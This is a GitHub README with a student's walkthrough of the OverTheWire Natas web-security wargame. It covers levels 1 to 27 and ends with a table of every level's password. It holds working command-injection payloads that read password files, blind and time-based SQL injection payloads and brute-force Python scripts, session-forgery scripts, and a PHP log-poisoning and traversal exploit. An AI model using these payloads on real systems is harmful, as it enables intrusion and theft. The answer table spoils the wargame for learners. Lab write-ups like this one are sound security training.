

# Hi, I'm Dr4ks! 👋

## 🚀 About Me
I'm a Cyber Security student.

## 🔗 Links
[](https://www.linkedin.com/in/sahib-humbatzada-42b082223/)
[](https://www.hackerrank.com/Dr4ks)
[](https://tryhackme.com/p/Dr4ks)
[](https://github.com/Dr4ks)

## 🛠 Skills
Pentesting


# Natas_Labs Solution
Natas is a web-based wargame that challenges players to solve a series of challenges by exploiting various security vulnerabilities. The challenges start out relatively easy and become progressively more difficult. The objective is to learn and practice web security concepts, such as SQL injection, cross-site scripting (XSS), and authentication bypass.

The challenges in Natas are divided into levels, each of which has its own URL and set of credentials. Players must navigate through the levels and find a password or some other hidden information in order to proceed to the next level.

**You can access to these labs from below link** <br />
Link=>https://overthewire.org/wargames/natas/


## Labs

- [Natas 1](#natas1)
- [Natas 2](#natas2)
- [Natas 3](#natas3)
- [Natas 4](#natas4)
- [Natas 5](#natas5)
- [Natas 6](#natas6)
- [Natas 7](#natas7)
- [Natas 8](#natas8)
- [Natas 9](#natas9)
- [Natas 10](#natas-10)
- [Natas 11](#natas-11)
- [Natas 12](#natas-12)
- [Natas 13](#natas-13)
- [Natas 14](#natas-14)
- [Natas 15](#natas-15)
- [Natas 16](#natas-16)
- [Natas 17](#natas-17)
- [Natas 18](#natas-18)
- [Natas 19](#natas-19)
- [Natas 20](#natas-20)
- [Natas 21](#natas-21)
- [Natas 22](#natas-22)
- [Natas 23](#natas-23)
- [Natas 24](#natas-24)
- [Natas 25](#natas-25)
- [Natas 26](#natas-26)
- [Natas 27](#natas-27)


# Natas1
We just find the password of natas1 on **source code** of http://natas0.natas.labs.overthewire.org/


# Natas2
Even though, we cannot do right click on mouse on web page. We just use keyboard **(Ctrl+U)** to find password of Natas2


# Natas3
After we looking at the **source code** of web page.We just see files directory and we just look at this directory and find sensitive file.


Yes here we have the password of natas3.


# Natas4
Here, We just do **Directory Fuzzing** to find hidden directories.


After analyzing this directory. We find password of natas4.


# Natas5
Whenever, we just open page, we just see that we can be authorized when request come from specific URL.
That's why we need to intercept the request and change **Referer** header of request.


# Natas6
After we open page, we see that Not Logged In problem and couldn't find anything on source page.
I just analyze request and look at the **Cookie** header of request.
I just modify 0 with 1 to be logged in.


# Natas7
We just analyze the **source code** of web page and understand the directory "includes/secret.inc".

We get secret of natas7 from "includes/secret.inc".

Finally, we write the secret and get password of natas7.


# Natas 8
Again, we look at the source code and see the thing which we saw on introduction page of CTF that passwords are located /etc/natas_webpass directory.


And we just modify URL as because on index.php file , there is **page** parameter, after modifying this, we find password of natas8.


# Natas 9
Here, we just analyze the source code and see that there is **encoded secret**.


After analyzing on Cyberchef and found basic Entropy of encryption.


Entering the encryption key and get password of natas9.


# Natas 10
Here we just, see that our input executed as command on Linux system. Here **Command Injection** vulnerability appears.


The most known character for OS injection is semicolon(;).
Payload=> ;cat /etc/natas_webpass/natas10


# Natas 11
As on previous section, **Command Injection** vulnerability appears but with a little bit hard **regex** which we need to bypass to execute commands.
The regular expression /[;|&]/ disallows the characters semicolon (;), pipe (|), and ampersand (&).


Here, to make easy for me, I just fuzz the **needle** parameter with OS injection payloads.


Finally, I just modify filename with file that contains password of natas11.
%0A=>newline %20=>space


# Natas 12
To solve this lab, we just need to understand the encryption algorithm of Cookie that we need to change value inside of this which needs to be like this "showpassword=yes", then we can easily see password of natas12.

We understand that, our clear_data like this (array( "showpassword"=>"no", "bgcolor"=>"#ffffff"))

1.First, we need to decrypt our cookie and get value.


2.From here, we just analyze that json_encode function is also used in backend.


3.And finally, predefined XOR encoding, we got key (KNHL)


Now it's time to encrypt our pass_data (array( "showpassword"=>"yes", "bgcolor"=>"#ffffff"))


Finally, we got password of natas12.


# Natas 13
Here, we just are in front of application which have **File Upload Vulnerability**, so that we just intercept the request while image uploading,
change filename,content-type also body of file which will read the password of natas13.


Then, we browse the file and get the password of natas13.


# Natas 14
It is the same **File Upload Vulnerability** vuln as previous one, here we just modify content of malicious file with bytes of image, as because web application just checks first 20 or 30 bytes of content.


Then, we browse the file and get password of natas14.


# Natas 15
Now, time to practice **SQL Injection". To make easy for me , I just use Fuzzer by adding payloads for login bypass.


# Natas 16
Yes, it is also **SQL Injection**, but this one is **Blind (Boolean)** means we cannot see the result of SQLI on web page.
 
Payload=>smt" UNION ALL SELECT 1,2 FROM users WHERE username="natas16" AND substring(password,$1$,1)= BINARY "$a$" LIMIT 1 OFFSET 0;#

From below result, response(913 bytes) is our answer.


# Natas 17
Now, as we analyze the source code, we can see that our input executed as command, that's why **Command Injection(Blind)** appears.
For this, I just code python exploit, let's look at the exploit to find password of natas17.

```python
import requests
import re
import string

chars = string.ascii_lowercase + string.ascii_uppercase + string.digits


user = 'natas16'
passw = 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V'

url = 'http://natas16.natas.labs.overthewire.org/'

session = requests.Session()
response = session.get(url, auth = (user, passw) )

seen_password = list()
while ( len(seen_password) < 32 ):

	for character in chars:
		print ("".join(seen_password) + character)
		response = session.post(url, data = { "needle" : "anythings$(grep ^" + "".join(seen_password) + character + " /etc/natas_webpass/natas17)" },auth = (user, passw) )
		content = response.text


		returned = re.findall( '<pre>\n(.*)\n</pre>', content )

		if ( not returned ):
			seen_password.append( character )
			break
```

# Natas 18
Again, we come across with **SQL Injection(Time-Based)** vulnerability and I decide to solve this CTF, I use previous code by modifying exploit.

```python
import requests
import re
import string
from time import *

chars = string.ascii_lowercase + string.ascii_uppercase + string.digits

user = 'natas17'
passw = 'XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd'

url = 'http://natas17.natas.labs.overthewire.org/'

session=requests.Session()
response=session.get(url,auth=(user,passw))
pospass=list()

while(len(pospass)<32):
    for character in chars:
        start_time=time()
        print("".join(pospass)+character)
        
        response=session.post(url,data={'username':'natas18" AND BINARY password LIKE "'+ "".join(pospass)+character+ '%" AND SLEEP(1) # '},auth=(user,passw))
        content=response.text

        end_time=time()

        dif=end_time-start_time

        if dif>1:
            pospass.append(character)
            break
```

Here, I just put image for you the output of code to imagine the purpose of exploit.


# Natas 19
From this lab, I understood that here **PHPSESSSION** that which needs to be value 640 as maximum.
For that, we need to brute-force from 1 to 641 to log in as admin to see password of natas19.
To automate process, I just use ZAP.


# Natas 20
This lab looks like the previous one, but differnce is that **Session IDs** are not sequential.
As because they are just Hex-Encoded.


Actually, it is simple again we just need to brute-forcing but here Payload Processing should be done.
Let's try to do this with Python code, that we just enter clear_data to encode as HEX.

```python
for i in range(1,641,1):
    clear_data=f"{i}-admin"
    print(clear_data.encode().hex())
```

Outputs of this code, we will use for brute-forcing.


# Natas 21
On this CTF, we just see PHPSESSID is not predictable, that's why we need to read source code.
From source code analysis, I just understood that page checks session's **admin key** that is equal to 1 or not, then you can be admin.
That's why when we do POST request, we just get the previous session to use secondly to be admin user.

I just implement Python code for this, you can look at.

```python
import requests

target = 'http://natas20.natas.labs.overthewire.org'
auth = ('natas20', 'guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH')


#First request to get session of admin
params = dict(name='admin\nadmin 1', debug='') # <-- this is the key part
cookies = dict()
response = requests.get(target, auth=auth, params=params, cookies=cookies)
phpsessid = response.cookies['PHPSESSID']
print(response.text)


#Second request to be admin
params = dict(debug='')
cookies = dict(PHPSESSID=phpsessid)
response = requests.get(target, auth=auth, params=params, cookies=cookies)
print(response.text)
```

You can see also output of above code.


# Natas 22
Actually, this is similar to previous one, but here we get our admin session from **Specified URL on home page**.
That's why, I just modify previous script to find password.

```python
import requests

target = 'http://natas21.natas.labs.overthewire.org'
auth = ('natas21', '89OWrTkGmiLZLv12JY4tLj2c4FW0xn56')

exp_tar='http://natas21-experimenter.natas.labs.overthewire.org/?debug=true&submit=1&admin=1'


#First POST request to get session of admin from exp_tar
session=requests.Session()
response = session.post(exp_tar, auth=auth)
admin_session = session.cookies['PHPSESSID']
print(response.text)


#Second request to be admin
response = requests.get(target, auth=auth,cookies={"PHPSESSID":admin_session})
print(response.text)
```

You can see also the output of above Python code.


# Natas 23
On this lab, I just understood from source code that, we need to block **Redirect** while requesting to specific parameter "revelio" which appeared on source code, too.
That's why to make this request easy for us, Python code is useful for us.We need to allow_redirects=False to GET request.

```python
import requests

target = 'http://natas22.natas.labs.overthewire.org/?revelio=1'
auth = ('natas22', '91awVM9oDiUGm33JdzM7RVLBS8bz9n0s')

session=requests.Session()
response = session.get(target, auth=auth,allow_redirects=False)
print(response.text)
```

You can see output of code.


# Natas 24
From source code, we can see that password which we need to enter should be inside "iloveyou" string and length of this higher than 10.


But important part is here that, **PHP type** vuln which we just enter integer values.


# Natas 25
On this CTF, I just see **strcomp** method which is used to compare two strings.I just searched for this method to find anything on Internet.
I found already.


I just do the same thing as above to solve CTF and it worked.


# Natas 26
To solve this CTF, vulnerable parameter for me is **lang** as because content is generated due to lang parameter's value.
Here, **Directory Traversal** comes to my mind.

However, we look at the source code and identifies that we just access to "/etc/natas_webpass/natas26" file(Code Injection on User-Agent) with session located "var/www/natas/natas25/logs/"

```python
import requests

target = 'http://natas25.natas.labs.overthewire.org/?revelio=1'
auth = ('natas25', 'O9QD9DZBDq1YpswiTM5oqMDaOtuZtAcx')

session=requests.Session()
malhead={"User-Agent":'<?php echo file_get_contents("/etc/natas_webpass/natas26"); ?>'}

response = session.get(target, auth=auth)
response=session.post(url=target,headers=malhead,auth=auth,data={"lang" : "..././..././..././..././..././var/www/natas/natas25/logs/natas25_" +  session.cookies['PHPSESSID'] + ".log"})
print(response.text)
```
Output of above code can be hidden, that's why I put image for you to see.


# Natas 27
When we analyze the **Sessions** just see that there is session called "drawing" and encode this, we just see deserialized object.
Now, we just maliciously modify this, makes serialized and get password of natas27.


After chaning session id, we just browse '/img/winner.php' file to see results.


# Usernames and Passwords
| User     | Password |
|----------|----------|
| natas1    | g9D9cREhslqBKtcA2uocGHPfMZVzeFK6    |
| natas2    | h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7    |
| natas3    | G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q    |
| natas4    | tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm    |
| natas5    | Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD    |
| natas6    | fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR    |
| natas7    | jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr    |
| natas8    | a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB    |
| natas9    | Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd    |
| natas10   | D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE   |
| natas11   | 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg   |
| natas12   | YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG   |
| natas13   | lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9   |
| natas14   | qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP   |
| natas15   | TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB   |
| natas16   | TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V   |
| natas17   | XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd   |
| natas18   | 8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq   |
| natas19   | 8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s   |
| natas20   | guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH   |
| natas21   | 89OWrTkGmiLZLv12JY4tLj2c4FW0xn56   |
| natas22   | 91awVM9oDiUGm33JdzM7RVLBS8bz9n0s   |
| natas23   | qjA8cOoKFTzJhtV0Fzvt92fgvxVnVRBj   |
| natas24   | 0xzF30T9Av8lgXhW7slhFCIsVKAPyl2r   |
| natas25   | O9QD9DZBDq1YpswiTM5oqMDaOtuZtAcx   |
| natas26   | 8A506rfIAXbKKk68yJeuTuRq4UfcK70k   |
| natas27   | PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3   |

## Authors
- [@dr4ks](https://www.github.com/Dr4ks)
